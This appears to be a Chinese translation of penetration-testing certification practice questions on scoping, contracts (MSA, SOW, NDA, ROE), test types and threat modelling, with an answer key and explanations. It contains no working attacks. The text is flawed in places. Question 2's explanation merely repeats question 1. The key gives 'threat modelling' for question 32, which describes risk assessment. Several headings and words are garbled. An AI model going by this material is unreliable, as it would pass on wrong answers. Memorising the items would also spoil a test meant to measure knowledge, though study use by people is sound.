你受一家当地医院的聘约进行渗透测试。客户要求进行第三方安全评估，以确认他们遵循了 HIPAA 指南。此外，客户要求你对他们用于管理库存的专利 Web 应用程序进行渗透测试。为了进一步协助这项工作，他们不仅提供了详细的网络架构图，还提供了应用程序的授权凭据、源代码相关材料。你与客户的主服务协议规定，你的授权书应作为一个单独交付的文件，并应在约开始日期一周前数字数字交付。现在是约定开始日期的前三天，而你尚未获得授权信。

**[24].** 在此场景中，客户最可能要求哪种类型的渗透测试？

**A.** 基于目标的（Goals-based）
**B.** 基于目标的（Objective-based）
**C.** 基于合规性的（Compliance-based）
**D.** 红队（Red team）

**[25].** 该客户最可能想要哪种测试方法？

**A.** 红队（Red team）
**B.** 灰盒（Gray box）
**C.** 黑盒（Black box）
**D.** 白盒（White box）

**[26].** 以下哪些选项是前一个问题的答案指标？（选择两个）

**A.** 提供了详细的网络架构图。
**B.** 对专利 Web 应用程序进行测试。
**C.** 客户是当地医院。
**D.** 提供了应用程序的合法凭据和源代码。

**[27].** 在下列选择中，客户组织的哪些成员或成员最有可能授权在渗透测试开始之前提供签署的授权信？

**A.** IT 部门
**B.** 人力资源部
**C.** 组织安全人员


## D. 执行管理与法律人员

**28.** 在以下选项中，应该联系客户组织中的哪位人员来协助在计划的评估开始日期之前获取书面授权信？

A. IT 部门
B. 组织安全人员
C.  `ROE` 中列出的联系人
D. 你进入大楼时在第一个护士站看到的任何人

**29.** A(n) \_\_\_\_\_\_\_\_\_\_ 是具有必要的能力和动机对组织实施威胁并对其资产部署漏洞利用的个人或群体。

A. 高级持续性威胁 (advanced persistent threat)
B. 脚本小子 (script kiddie)
C. 威胁行为者 (threat actor)
D. 黑客主义 (hacktivist)

**30.** 在威胁建模过程中识别出的威胁类型包括以下哪些？（选择三项。）

A. 网络威胁
B. 主机威胁
C. 操作系统威胁
D. 应用威胁

**31.** 受 PCI DSS 和 HIPAA 等合规框架约束的系统通常需要满足以下哪些标准？（选择两项。）

A. 密码复杂度
B. 可用性
C. 数据隔离
D. 可接受使用

**32.** 识别、量化和处理与组织信息系统相关风险的过程是什么？

A. 威胁建模
B. 风险评估
C. 目标选择
D. 渗透测试

**33.** 你受聘为某机构执行渗透测试。初始会议进展顺利，你拥有定义良好的执行规则（`ROE`）和目标范围文档。两周后，你被问及是否可以在给定的评估时间内“再挤进另一个 `/22 subnet`”。这可能是以下哪种的示例：

A. 影响分析
B. 范围蔓延 (Scope creep)
C. 基于目标的评估
D. 黑盒评估

**34.** `ROE` 中的哪个组件告诉渗透测试人员在执行过程中遇到问题时应联系谁，以及如何联系？

A. 任务范围
B. 通信升级路径
C. Swagger 文档
D. 工作说明书 (`SOW`）

**35.** 哪种评估衡量了组织对针对特定环境定义的一系列安全标准的实施和遵守情况？

A. 白盒
B. 基于目标的
C. 红队
D. 基于合规的

**36.** 哪种支持资源详细说明了组织的网络或软件设计，并定义了这些元素之间的关系？

A. 架构图
B. `WL`
C. `XSD`
D. 任务范围

**37.** 哪份文档概述了渗透测试人员为某机构执行的特定项目工作？

A. 保密协议
B. 工作说明书
C. 执行规则
D. 通信升级路径

**38.** 需求管理中的这一关键方面是评估采取某项行动潜在优缺的正式方法。

A. 执行管理
B. 影响分析
C. 调度
D. 技术限制

**39.** 支付计划、知识产权所有权和争议解决等协议和条件的通用条款，通常在渗透测试人员与其客户之间的哪份文档中处理？

A. 工作说明书
B. 主服务协议
C. 执行规则
D. 保密协议

**40.** 哪种渗透测试方法可能需要有效的凭据或其他提供对环境或网络深入了解的信息？

A. 黑盒
B. 红盒
C. 红队
D. 白盒

请参考以下场景回答接五个问题：
你受美国政府办公室之聘进行渗透测试。客户要求进行一项长期的评估，旨在模拟高技能对手的行动。合同部分内容要求参与任务的所有渗透测试人员必须是拥有活跃安全许可的美国公民。此外，合同中还包含了一系列详细说明客户网络设计的插图作为支持文档。

**41.** 在以下选项中，该客户最可能请求的是哪种评估？

A. 红队
B. 基于目标的
C. 基于合规的
D. 基于目标的

**42.** 在列选项中，哪份合同文件最可能规定测试人员必须是美国公民并持有活跃的安全许可？

A. 保密协议
B. 主服务协议
C. 工作说明书
D. 执行规则

**43.** 根据提供的描述，客户提供了哪种类型的支持文档？

A. `WADL` 文件
B. `SDK` 文档
C. 架构图
D. `SOAP` 项目文件

**44.** 提供的支持文档将作为哪份合同文档的附件？

A. 执行规则
B. 工作说明书
C. 主服务协议
D. 保密协议

**45.** 在执行任务期间，客户的“蓝队”（防御者）识别了你的扫描，并设置了防火墙规则拦截从你的 IP 地址到其环境的所有流量。在以下选项中，哪种是继续渗透测试的最合适行动方案？

A. 记录你被抓住了，然后停止所有测试。没有必要进一步测试。
B. 在客户拥有的范围外系统上获取脚点，以便在不被发现的情况下继续测试。
C. 创建许多带有“裁员名单”恶意文件的 U 闪盘，这些文件会返回到攻击系统的 shell，并将它们丢在客户的主停车场。
D. 记录你的流量似乎已被识别为恶意流量，通知客户联系人你认为你的流量已被识别并拦截，并请求对后续评估的首选行动方案提供建议。

### 快速答案对照

[1]. A
[2]. B
[3]. D
[4]. C
[5]. C
[6]. D
[7]. C
[8]. A
[9]. C
[10]. B
[11]. B
[12]. B
[13]. A
[14]. A, D
[15]. C
[16]. C
[17]. A, D
[18]. C
[19]. D
[20]. D


- 21 .** B
- 22 .** B, C
- 23 .** A
- 24 .** C
- 25 .** D
- 26 .** A, D
- 27 .** D
- 28 .** C
- 29 .** C
- 30 .** A, B, D
- 31 .** A, C
- 32 .** A
- 33 .** B
- 34 .** B
- 35 .** D
- 36 .** A
- 37 .** B
- 38 .** B
- 39 .** B
- 40 .** D
- 41 .** A
- 42 .** C
- 43 .** C
- 44 .** A
- 45 .** D

***

### 深度解析 A

***

- 1 .** 一家公司遭到黑客攻击，几封令人尴尬的电子邮件泄露。哪种类型的威胁最可能是导致这一事件的原因？

  - A. 内部威胁
  - B. APT（高级持续性威胁）
  - C. 犯罪活动
  - D. 脚本小子（Script kiddie）


一家公司遭到黑客攻击，几封令人尴尬的电子邮件泄露。哪种类型的威胁最可能是导致这一事件的原因？

**A.** 内部威胁。内部威胁是指组织内部对数据或系统具有授权访问权限的人员，但他们利用这些权限造成伤害。这可能是恶意的，也可能是无意的。

**B.** APT。高级持续性威胁（APT）是一种长期且有针对性的网络攻击，在此过程中，攻击者或入侵者获取网络权限并在长时间内保持不被发现，以从组织中提取敏感数据。

**C.** 犯罪活动。虽然犯罪分子确实会攻击公司，但内部泄露带来的尴尬更多地与内部人员或针对性的攻击行动有关。

**D.** 脚本小子。脚本小子是指缺乏技能的人员，他们使用现有的程序和软件来启动计算机攻击，通常缺乏执行复杂破入所需的专业知识。

- 2 .** 微软威胁建模框架中的哪一步包括对正在实施的使用技术进行记录？

  - A. 评估威胁分
  - B. 架构概述
  - C. 识别资产
  - D. 拆解应用程序


一家公司遭到黑客攻击，几封令人尴尬的电子邮件泄露。哪种类型的威胁最可能是导致这一事件的原因？

**A.** 内部威胁。内部威胁是指组织内部对数据或系统具有授权访问权限的人员，但他们利用这些权限造成伤害。这可能是恶意的，也可能是无意的。

**B.** APT。高级持续性威胁（APT）是一种长期且有针对性的网络攻击，在此过程中，攻击者或入侵者获取网络权限并在长时间内保持不被发现，以从组织中提取敏感数据。

**C.** 犯罪活动。虽然犯罪分子确实会攻击公司，但内部泄露带来的尴尬更多地与内部人员或针对性的攻击行动有关。

**D.** 脚本小子。脚本小子是指缺乏技能的人员，他们使用现有的程序和软件来启动计算机攻击，通常缺乏执行复杂破入所需的专业知识。

- 3 .** 在渗透测试项目的范围界定阶段，渗透测试人员可能如何有效地获取开始测试所需的信息？

  - A. 等待客户告知
  - B. 询问之前的渗透测试提供者查看了哪些内容
  - C. 与业务领导层建立邮件链以便记录通信情况
  - D. 向客户发送一份前期调查问卷（也称为范围界定文档）由其填写


前期调查问卷（或范围界定文档）是获取开发渗透测试行动方案所需信息的极佳方式，也可用于为客户提供报价或成本估算。


 `A`、`B` 和 `C` 都是错误的。`A` 是错误的，因为等待客户主动提供信息是一种糟糕的方法；客户往往不确定他们具体从渗透测试中需要什么。利用测试团队的经验，使用精炼且重点出的良好范围文档（scoping document）是引导新客户的更好方法。`B` 是错误的，因为询问之前的渗透测试团队几乎肯定会违反多项保密协议（你与客户之间的协议，以及上一个团队与同名客户之间的协议）。`C` 是错误的，因为启动邮件链需要你作为渗透测试人员不断提出探究性问题，以确保收集到所有所需信息。作为渗透测试人员，编写一份预先定义的问题列表和信息请求，让客户组织一次性填写，这样对你时间的利用要高效得多；；这样做可以从多个方面为你节省时间，因为你可以开发一个标准的“约前调查表单”并要求所有客户填写，然后在等待开始测试的许可或执行其他准备活动期间，利用这部分时间进行被动情报收集。

### 4 哪种合同文件是保护企业所有信息和知识产权的保密协议？

- **A.** 主服务协议 (MSA)
- **B.** 工作说明书 (SOW)
- **C.** 保密协议 (NDA)
- **D.** 书面授权书

 `C` . 保密协议（`NDA`）是一种保护企业所有信息和知识产权的保密协议。

 `A`、`B` 和 `D` 都是错误的。`A` 是错误的，因为主服务协议（`MSA`）是两个或多个双方之间的合同，规定了未来交易和协议的详细细节。这通常涉及诸等条件（但不限于）：付款条款和进度安排、知识产权所有权以及风险分配。`B` 是错误的，因为工作说明书（`SOW`）是 `MSA` 中的一项条款，概述了服务供应商为组织执行的特定项目工作。它通常涉及诸等细节（但不限于）：项目目的、工作范围和执行周期。`D` 是错误的，因为书面授权书通常作为渗透测试交战规则（`ROE`）的一部分提供的文档，并详细说明了客户组织对将进行的评估的授权。该文件对于渗透测试人员来说是至关重要的法律保护；没有它，理论上人员可能会面临将未经授权访问计算机系统定为犯罪的法律惩措施——例如美国的《计算机欺诈和滥用法》（`CFAA`）。

### 5 对于在边界防御之后后进行的渗透测试，被提供受限访问意味着什么？

- **A.** 客户人员仅在有限时间内可用。
- **B.** 访问目标系统或网络的网络访问仅在预定义的时间内允许。
- **C.** 渗透测试人员仅提供与目标系统的初始、基础连接。
- **D.** 渗透测试人员被提供了一个管理员用户账户。

 `C` . 受限访问是指渗透测试期间的一种起始位置，测试人员（或多个测试人员）被提供与相关目标的初始连接。这可以是物理网络交换机连接、组织 Wi-Fi 网络的 SSID（服务集标识符）和密码，或 IP 地址白名单。

 `A`、`B` 和 `D` 都是错误的。`A` 和 `B` 是错误的，因为可能无法测试的时间段和通信升级人员的可用小时是渗透测试交战规则中会明确声明的事实。`D` 是错误的，因为为渗透测试人员提供管理员用户账户是特权级访问的示例，这种网络访问级别远超预期（在此情况下，即对网络或系统的受限访问）。

### 6 红队评估的执行方式通常与哪种类型的威胁者的操作方式一致？

- **A.** 黑客活动分子 (Hacktivist)
- **B.** 内部威胁 (Insider threat)
- **C.** 脚本小子 (Script kiddie)
- **D.** 高级持续性威胁 (Advanced persistent threat)

 `D` . 红队评估的执行方式通常与高级持续性威胁（或 `APT`）的现实世界操作一致。

 `A`、`B` 和 `C` 都是错误的。红队评估通常旨在模拟技术水平最高、最投入的威胁者，因此不会预计此类评估会刻意模拟黑客活动分子、内部威胁或脚本小子的典型战术和方法，因为这些人在技术能力上差异巨大。

### 7 正如微软威胁建模程序所示，计算总风险的公式如下：

**风险 (Risk) = 概率 (Probability) * Damage Potential**

在渗透测试期间，你发现一个具有相对高损害潜力（8/10）和高于平均发生概率（7/10）的漏洞。根据前面的公式，该漏洞相关的风险是多少？

- **A.** 15
- **B.** 1
- **C.** 56
- **D.** 560

 `C` . 这种情况的风险值为 56。使用微软的威胁建模公式 `Risk = Probability * Damage Potential`，我们可以将已知的 `Probability`（7）和 `Damage Potential`（8）值代入公式。因此，`Risk = 7 * 8`，即 56。

 `A`、`B` 和 `D` 都是错误的。涉及任何数学计算的问题，其答案可能是给定数字之间其他数学运算产生的结果；在这种情况下，你看到了加法、减法以及一个差了一个数量级的答案。请密切注意此类情况下要求的运算类型。

### 8 根据微软的威胁建模系统，该漏洞的最终风险优先级将是什么？

- **A.** 中等 (Medium)
- **B.** 低 (Low)
- **C.** 高 (High)
- **D.** 紧急 (Urgent)

 `A` . 风险值 56 在微软的威胁框架中对应中等风险优先级。

 `B`、`C` 和 `D` 都是错误的。`B` 是错误的，低风险优先级对应的风险值在 1 到 39 之间。`C` 是错误的，高风险优先级对应的风险值在 80 到 100 之间。`D` 是错误的，因为紧急并不是一个独立的风险优先级；相反，紧急被认为是描述具有高风险优先值的项目的方法。

### 9 . 在微软的威胁建模指南中，哪一步涉及对组织的外部和内部威胁进行分类？

- **A.** 评估威胁 (Rate the threats)
- **B.** 分解应用程序 (Decompose the application)
- **C.** 识别威胁 (Identify threats)
- **D.** 识别资产 (Identify assets)


`C` . 提供的定义最好地描述了微软威胁建模过程的第四步：威胁识别。这一步的特征是对组织的外部和内部威胁进行分类。确定威胁发现于何处、它们如何被利用以及识别能够利用这些威胁的代理是至关重要的步骤，这些步骤可以极大地帮助增强组织的防御态势。

`A` , `B` , 和 `D` 是错误的。`A` 是错误的，因为威胁评分是微软威胁建模过程的最后一步，通常对客户和环境类型具有很主观性。威胁通常被分配一个通用的威胁值，如高、中、低。这可能伴随着一个从简单公式得出的数值，例如 `Risk = (Probability) * (Damage Potential)`。`B` 是错误的，因为拆解应用程序是第三步，它对组织所使用的技术进行细粒度分解和分析，其特征是对入口点（如网络端口或协议）以及互连系统之间的信任边界进行审查。这一步的目标是开发一个安全配置文件，对架构中可能易受到某种类型漏洞的区域进行分类。`D` 是错误的，因为资产识别是微软威胁建模框架的第一步，它包含定义任何对于成功执行业务职能或实践至关重要的组织资产。

### 10 . Swagger 文档的目的是什么？

**A.** 描述通过 Web 服务提供的功能

**B.** 提供 API 描述和测试用例

**C.** 提供模拟测试场景，允许对请求进行检查和调试，或者可能发现未文档记录的 API

**D.** 详细阐述开发软件应用程序时使用的框架

`B` . Swagger 是一个用于 RESTful Web 服务的开源软件开发框架；Swagger 文档为这些服务提供了 API 描述和示例测试用例。

`A` , `C` , 和 `D` 是错误的。`A`（描述通过 Web 服务提供的功能的支持资源）指的是 `WSDL`。`C`（模拟测试场景、请求的检查和调试以及揭示未记录的 API）指的是示例应用程序请求。`D`（用于详细阐述开发软件应用程序时使用的框架的文档）指的是软件开发包，或 `SDKs`。

### 11 . 如果渗透测试的一部分需要前往远程现场办公室或数据中心，这通常出现在哪份合同文件中？

**A.** 保密协议

**B.** 工作说明书

**C.** 书面授权信

**D.** 交互规则 (Rules of engagement)

`B` . 如果渗透测试的一部分需要旅行，这些细节通常会在工作说明书（或 `SOW`）中定义。经常涉及的其他细节还包括（但不限于）参与的目的、工作范围和执行期限。

`A` , `C` , 和 `D` 是错误的。`A` 是错误的，因为保密协议（`NDA`）是一份保护业务专有信息和知识产权的机密协议。`C` 是错误的，因为书面授权信通常作为渗透测试交互规则（`ROE`）的一部分提供，并详细说明了客户组织对将进行评估的授权。`D` 是错误的，因为交互规则文档规定了旨在引导测试人员在评估期间遵循的指南和限制，最关键的是详细说明了哪些是允许测试的，哪些是不允许的。`ROE` 文档单独交付。

### 12 . 以下所有资产可能是渗透测试的目标候选，*除了*的是：

**A.** 技术

**B.** 由其他公司管理的账户

**C.** 人员

**D.** 设施

`B` . 由客户拥有、运营或部署的资产都是渗透测试的候选；包括人员、设施和技术。

`A` , `C` , 和 `D` 是错误的。再次，注意题目的措辞；包含“不”等否定词的题目其答案是相反。

### 13 .** 由渗透测试目标受众识别的，(n)\_\_\_\_\_\_\_ 是对组织产生重大影响的技术挑战（例如，计划更换的关键主机或旧设备）。

**A.** 技术约束

**B.** 工作说明书

**C.** 参与范围

**D.** 保密协议

`A` . 技术约束说明了对组织产生重大影响的特定挑战，例如关键主机或计划更换的旧设备。这些信息通常作为业务决定哪些系统或网络在范围内的决策过程的一部分。

`B` , `C` , 和 `D` 是错误的。`B` 是错误的，因为工作说明书（`SOW`）是 `MSA` 中的一项规定，概述了服务供应商执行的特定项目。它通常涉及（但不限于）项目目的、工作范围和执行期限。`C` 是错误的，因为参与范围通常作为 `ROE` 的部分详细说明，明确声明主机、网络和子网在范围之内还是。`D` 是错误的，因为保密协议（`NDA`）是一份保护业务专有信息和知识产权的机密协议。

### 14 .** 以下哪些是点性评估的类型？（选择两个。）

**A.** 合规性

**B.** 黑盒

**C.** 灰盒

**D.** 目标型

`A` 和 `D` 是正确的。合规性测试和目标型测试都是点性评估类型。合规性测试评估的是组织在其环境中遵循和实施既定安全标准的能力，而目标型测试更具战略性，侧重于测试人员努力实现特定的预期结果。


 `B` 和 `C` 是错误的。`B` 错误是因为，黑盒测试发生在渗透测试人员在评估之前，除了关键标识符（例如要测试的特定子网）外，对目标环境几乎或完全没有预先，这确保了渗透测试人员仅评估范围内的项目。`C` 错误是因为，灰盒测试是一种在向渗透测试团队提供信息方面混合了白盒和黑盒测试的渗透测试方法。例如，渗透测试人员可能会被告知 `10.1.1.12/22` 网络及其连接的所有内容都在范围之内，但不会被告知有关该子网深处潜在目标的任何进一步信息。此外，黑盒评估和灰盒评估都是渗透测试中使用的`methodologies`，而不是渗透测试的`types`。这种区别在考试中可能是关键的线索。

### 15 .

哪一类威胁行为者技术水平高、经常获得国家级资源的支持，并且通常以获取敏感信息（如工业或国家秘密）或财务收益为动机？

**A.** 内部威胁
**B.** 黑客行动主义者
**C.** 高级持续性威胁
**D.** 脚本小子 (Script kiddies)

 `C`。高级持续性威胁，或 `APT`，技术水平高、经常获得国家级资源的支持，并且通常以财务收益或对公司或国家的忠诚为动机进行间谍活动。`APT` 经常针对高知名人士和组织。

 `A`、`B` 和 `D` 是错误的。`A` 错误是因为内部威胁通常是出于个人恩怨、财务收益或为另一家业务甚至国家级行为者进行间谍活动等某种动机。他们的技能水平差异很大，但由于他们对组织和环境中的系统内部了解，他们更具危险性。他们始终针对当前或之前的工作单位。`B` 错误是因为黑客行动主义者受政治或社会意识形态的驱动。他们的技能水平差异很大，和 `APs` 一样，他们倾向于针对高知名人士或组织。`D` 错误是因为脚本小子是自我驱动的，通常是技术较低的对手，倾向于针对风险规避意识较低的组织，或者对安全几乎没有了解或感兴趣的组织；他们的动机通常在于好奇心以及想看看他们对真实网络能做什么。

### 16 .

一家为美国军制造硬件的国防承包商已就新型航空电子系统的渗透测试发布了征求书。该承包商表示，该项目的渗透测试人员必须持有安全许可。以下哪项是该项要求最可能的解释？

**A.** 出口控制限制
**B.** 公司政策
**C.** 政府限制
**D.** 保密协议

 `C`。这是国家政府限制发挥作用的一个例子。国防合同工作包含一个国家内可以找到的最敏感的信息，因其本身如此。

`A`、`B` 和 `D` 是错误的。`A` 错误是因为出口控制限制涉及跨国技术传输。`B` 错误是因为公司政策是组织内部的。`D` 错误是因为保密协议防止信息共享，但并不一定强制要求进行安全许可。

### 17 .

以下哪些项是主服务协议（MSA）中涵盖的内容？（选择两个。）

**A.** 争议解决措施
**B.** 工作地点
**C.** 验收标准
**D.** 赔偿条款

 `A` 和 `D` 是正确的。争议解决措施和赔偿条款是 `MSA` 中通常涵盖的项目。`MSA` 中的其他项目包括付款条款和风险分配。

 `B` 和 `C` 是错误的。工作地点和验收标准通常在工作说明书（`SOW`）中说明。`SOW` 中通常详细的其他项目包括任何适用的行业标准和进度安排。

### 18 .

哪种类型的评估的特点是执行时间比典型长，并且在没有有效的预期管理的情况下会给组织带来重大的风险或成本？

**A.** 白盒
**B.** 基于合规性的
**C.** 红队
**D.** 基于目标的

 `C`。红队评估通常是更大规模的活动，耗时比其他类型的评估更长，而且在预期未得到管理的情况下，可能会给组织带来更大的风险和支出。

 `A`、`B` 和 `D` 是错误的。`A` 错误是因为白盒测试不是渗透测试的一种类型，而是应用于测试的方法。`B` 错误是因为基于合规性的测试其特点是遵守如 `HIPAA` 或 `FISMA` 等监管安全框架详细说明的指南。`D` 错误是因为基于目标的测试更具战略性，并不一定具有与红队评估相关的更长持续时间更大风险。

### 19 .

在基于合规性的测试中，为什么渗透测试人员对组织的网络或系统的访问受限或受限制是有问题的？

**A.** 测试人员在测试期内可能没有足够的时间发现目标系统或网络上的所有漏洞。
**B.** 测试人员需要能够验证遵守了出口控制法规。
**C.** 测试人员需要足够的时间来准确模拟高级持续性威胁 (`APT`)。
**D.** 测试人员需要访问足够的信息和资源，以成功完成完整的审计。


 **D** 。 如果无法充分访问适当的网络和系统，测试人员将无法完全评估其对相关监管框架中详述指南的合规性。这可能导致评估结果的不一致，并危及整个评估的合法性。

 **A**、**B** 和 **C** 都是错误的。**A** 是错误的，因为测试周期内是否有足够的时间是*所有*渗透测试中考虑的问题，而不仅仅是基于合规性的测试。渗透测试人员的工作之一是学习识别并优先考虑目标，无论进行的是何种类型的评估。**B** 是错误的，因为对出口控制条例的验证在许多项目中都是一个有效的关注点，其重要性不仅限于基于合规性的测试。**C** 是错误的，因为模拟高级持续性威胁（APT）通常与红队安全评估相关，而不是基于合规性的测试。

### 20 . 什么支持资源的功能是定义用于发送和接收消息的格式？

**A.** WSDL
**B.** XSD
**C.** 架构图
**D.** SOAP 项目文件

 **D** 。一个 SOAP（简单对象访问协议）项目文件是一种支持资源，详细说明了特定 Web 服务发送和接收消息的方式。

 **A**、**B** 和 **C** 错误的。**A** 是错误的，因为 `WSDL`（服务描述语言）描述了通过 Web 服务提供的功能。**B** 是错误的，因为 `XSD` 是 `XML`（可扩展标记语言）方案定义，它正式描述了构成 `XML 文档` 的元素。**C** 是错误的，因为架构图是一幅地图或插图，代表了组织网络足迹或软件中各种元素之间的关系。

### 21 . 哪种类型的威胁者通常缺乏技能，通常受好奇心或个人利益驱动，并经常通过使用公开的利用程序来表明？

**A.** 高级持续性威胁
**B.** 脚本小子（Script kiddies）或“skids”
**C.** 内部威胁
**D.** 黑客行动主义

 **B** 。 脚本小子或“skids”是自我驱动且通常技能较低的对手，他们倾向于针对风险意识较弱的组织，或者对安全一无所知或感兴趣的组织；他们的动机往往出于好奇心，想看看自己能对实时网络做什么。

 **A**、**C** 和 **D** 都是错误的。**A** 是错误的，因为高级持续性威胁（`APT`）具有高水平技能，通常有国家级资源的支持，并且通常受财务利益或对公司或国家的忠诚而进行的间谍活动动机驱动。他们经常针对高知名人士和组织。**C** 是错误的，因为内部威胁通常受某种个人恩怨、财务利益或为其他业务甚至国家级行为者进行间谍活动的动机驱动。他们的技能水平差异很大，但由于他们对组织和环境中的系统了解内部情况，他们更加危险。他们始终针对自己当前或之前的任职单位。**D** 是错误的，因为黑客行动主义者受政治或社会意识形态驱动。他们的技能差异很大，和 APT 一样，他们倾向于针对高知名人士或组织。

### 22 . 以下所有人员通常都可以被认为是渗透测试结果的利益相关者，除外哪两个？

**A.** IT 部门
**B.** 竞争对手
**C.** 第三方媒体组织
**D.** 执行管理

 **B** 和 **C** 是正确的。**B** 是正确的，因为向组织的竞争对手披露渗透测试结果将损害该组织的声誉，并可能使其面临针对性的企业间谍活动，而且肯定会违反评估的 `NDA`。因此，在渗透测试的范围内，他们显然*不*被认为是利益相关者。同样，**C** 是正确的，因为向媒体组织——或者实际上，向*任何*第三方分发渗透测试结果将保证会违反评估的 `NDA`。你作为渗透测试人员的工作是寻找要提供给客户的信息；在任何情况下，都不应将这些信息提供给 `MSA` 中未明确指明的任何人。

 **A** 和 **D** 是错误的。密切关注考试期间问题的措辞；包含“不”或“除外”等否定词的问题，其答案与没有否定词的相同答案相反。在答案 A 和 D 的情况下，IT 部门和执行人员*通常*是渗透测试的利益相关者，因此它们是该问题的错误答案。

### 23 . 根据微软公布的程序，威胁建模的第一步是什么？

**A.** 识别资产
**B.** 识别威胁
**C.** 解构应用程序
**D.** 架构概述

 **A** 。 资产识别是微软威胁建模框架的第一步，由定义任何对成功执行业务功能或实践重要的组织资产组成。

 **B**、**C** 和 **D** 是错误的。**B** 是错误的，因为识别威胁是微软威胁建模框架的第四步，其特征是对组织的外部和内部威胁进行分类。确定威胁出现在何处、如何被利用以及能够利用威胁的代理是关键步骤，可以极大地协助加强组织的防御态势。**C** 是错误的，因为解构应用程序是第三步，由对组织使用的技术进行细致分解和分析组成，其特征是审查入口（如网络端口或协议）以及互连系统之间的信任边界；此步骤的目标是开发安全配置文件，对易受某种类型漏洞的区域进行分类。**D** 是错误的，因为架构概述是该过程的第二步，它定义为对组织架构中各种技术及其实现方法进行细致分析。架构概述是威胁建模中的一个关键步骤，因为它使得后后阶段的威胁识别变得更容易管理。请参考微软关于改进 Web 应用安全的指导以获取有关其威胁建模过程的更多细节。

请参考以下场景回答接五个问题：


你受当地一家医院的委托进行渗透测试。客户要求进行第三方安全评估，以确认他们遵循了 HIPAA（医疗保险流通与责任法案）指南。此外，客户还要求你对他们用于管理库存的专有 Web 应用程序进行详细的渗透测试。为了进一步协助这项工作，他们提供了一份详细的网络架构图，以及经过授权的管理员凭据、源代码和该 Web 应用程序的相关材料。你与客户签署的主服务协议规定，你的书面授权书应作为一个单独交付的文件，并应在项目计划开始日期前的一周以数字形式交付。目前距离初步会议约定的开始日期仅剩三天，而你尚未获得已签署的授权信。

### 24 . 在这种情况下，客户最可能请求的是哪种类型的渗透测试？

- **A.** 基于目标的（Goals-based）
- **B.** 基于客观的（Objective-based）
- **C.** 基于合规性的（Compliance-based）
- **D.** 红队（Red team）

**C** . 因为客户要求验证其对 HIPAA 指南的遵循情况，他们最可能请求是对其环境进行基于合规性的评估。

**A**，**B** 和 **D** 是错误的。**A** 和 **B** 错误的原因是因为“基于目标的”和“基于客观的”在渗透测试中是同义词；这些答案是错误的，因为这种类型的测试其特点是更具战略性，并侧重于实现特定的预期结果。**D** 是错误的，因为红队测试的持续时间比其他类型的评估更长；它可能会给组织带来更大的风险和费用，并且没有专门针对对监管框架实施情况的评估。

### 25 . 该客户最可能想要的是哪种测试方法？

- **A.** 红队（Red team）
- **B.** 灰盒（Gray box）
- **C.** 黑盒（Black box）
- **D.** 白盒（White box）

**D** . 由于客户提供了所使用的专有 Web 应用程序的授权管理员凭据和源代码，该客户最可能想要白盒测试。

**A**，**B** 和 **C** 是错误的。**A** 是错误的，因为红队测试是一种测试*类型*，而不是一种测试*方法*。仔细阅读题目将有助于你排除此类错误答案。**B** 和 **C** 是错误的，因为灰盒和黑盒测试方法与此场景中提供给你（渗透测试员）的信息量不符；例如，这两个选项都不会向你提供 Web 应用程序的管理员凭据或源代码。

### [26]](#text00007.html#r_ch1ans26) . 在以下选项中，哪些是上一个问题答案的主要指示依据？（选择两项。）

- **A.** 提供了详细的网络拓图。
- **B.** 对专有 Web 应用程序进行测试。
- **C.** 客户是一家当地医院。
- **D.** 提供了 Web 应用程序的合法凭据和源代码。

**A** 和 **D** 是正确的。提供详细的网络拓图让渗透测试员对被测试环境有了深入的了解。明确提供 Web 应用程序的管理员凭据和源代码也是如此。这两个前提都是白盒测试的特征。

**B** 和 **C** 是错误的。**B** 是错误的，因为对专有 Web 应用程序的测试可以在没有任何有效凭据或提供源代码的情况下进行，这可能符合黑盒或灰盒测试。**C** 是错误的，因为客户是当地医院这一事实对测试方法没有影响；如果说有影响的话，客户的身份将是执行特定测试*类型*（在这种情况下是基于合规性的）的线索，而不是测试*方法*。

### 27 . 在以下选择中，客户组织的哪些成员最可能授权在渗透测试开始之前提供已签署的授权信？

- **A.** IT 部门
- **B.** 人资源部门
- **C.** 组织安全人员
- **D.** 执行管理层和法律人员

**D** . 签署的授权信通常由组织的执行管理团队、组织法律团队或两者共同提供。

**A**，**B** 和 **C** 是错误的。**A** 和 **C** 是错误的，是因为 IT 部门和安全人员负责传达安全策略并修复执行期间可能发生的任何事件。**B** 是错误的，因为人力资源部门负责保护组织在人员决策方面的利益；HR 极不可能对渗透测试的提供产生任何影响。

### 28 . 在以下选项中，应该联系客户组织中的谁来协助在开始日期之前获取书面授权信？

- **A.** IT 部门
- **B.** 组织安全人员
- **C.** 你 ROE（规则说明）中的联系人
- **D.** 你在第一个护士站看到的任何人

**C** . `ROE` 中列出的联系人 `POC` 应该是你在渗透测试任何阶段出现问题或故障时首要通知的人；这包括签署合同和文件的准备阶段。因此，如果没有按时获得授权信，联系你的 `POC` 是最合适的。

**A**，**B** 和 **D** 是错误的。**A** 和 **B** 是错误的，是因为 IT 部门和安全人员负责传达安全策略并处理执行期间可能发生的任何事件。**D** 是错误的，因为护士站的工作人员不太可能是测试目的决策权威，应该让他们像训练的那样去救人和照顾病人，不受测试者的骚扰。

### 29 . ________ 是是指具有对组织实施威胁并对其资产实施攻击的能力和动机的个人或群体。

- **A.** 高级持续性威胁（advanced persistent threat）
- **B.** 脚本小子（script kiddie）
- **C.** 威胁者（threat actor）
- **D.** 黑客活动分子（hacktivist）

**C** . 威胁者是指具有对组织实施威胁并对其资产实施攻击的能力和动机的个人或群体。

**A**，**B** 和 **D** 是错误的。密切关注要求相关术语定义的题目的用辞；高级持续性威胁、脚本小子和黑客活动分子都是威胁者的*类型*。如果提供的定义适用于多个答案，请查看是否有“以上皆是”的选项或更广泛的术语，如本特定示例所示。

### 30 . 在威胁建模过程中识别出的威胁类型包括以下哪些？（选择三项。）

- **A.** 网络威胁（Network threats）
- **B.** 主机威胁（Host threats）


## C. 操作系统威胁

## D. 应用威胁

**A**、**B** 和 **D**。网络威胁、主机威胁和应用程序威胁都是在威胁建模过程中可能识别出的威胁类型。

**C** 是错误的。对操作系统的威胁是主机威胁的一个特定子类型，尽管它们在威胁建模过程中会被识别出来，但它们会被归类为对机的威胁。

### 31 . 受到 `PCI DSS` 和 `HIPAA` 等合规框架管理的系统通常需要符合以下哪些标准？（选择两项。）

- **A.** 密码复杂度
- **B.** 可用性
- **C.** 数据隔离
- **D.** 可接受使用

**A** 和 **C** 是正确的。密码复杂和数据隔离的基准标准是由 `PCI DSS`、`HIPAA` 和 `FISMA` 合规框架建立的。除了这些之外，合规框架还建立了密钥管理标准。

